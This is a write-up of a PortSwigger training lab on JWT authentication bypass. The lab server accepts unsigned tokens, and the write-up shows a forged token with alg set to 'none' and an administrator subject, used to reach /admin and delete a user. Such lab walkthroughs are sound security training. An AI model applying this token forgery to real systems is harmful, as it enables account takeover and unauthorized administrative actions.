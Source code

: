 
# JWT authentication bypass via flawed signature verification

This lab uses a JWT-based mechanism for handling sessions. The server is insecurely configured to accept unsigned JWTs.

To solve the lab, modify your session token to gain access to the admin panel at /admin, then delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter

Tip: We recommend familiarizing yourself with how to work with JWTs in Burp Suite before attempting this lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/jwt



![img](images/JWT%20authentication%20bypass%20via%20flawed%20signature%20verification/1.png)

---------------------------------------------



![img](images/JWT%20authentication%20bypass%20via%20flawed%20signature%20verification/2.png)




![img](images/JWT%20authentication%20bypass%20via%20flawed%20signature%20verification/3.png)


Then delete everything after the second “.” character (that is the signature):

```
eyJraWQiOiIzNjlmMmFjZC1hZTUwLTQ4YzctYTM2Ny04NTczYzllNTc0ZmQiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2ODM3ODk4MzB9.
```



![img](images/JWT%20authentication%20bypass%20via%20flawed%20signature%20verification/4.png)


Access the admin panel and delete the user:



![img](images/JWT%20authentication%20bypass%20via%20flawed%20signature%20verification/5.png)

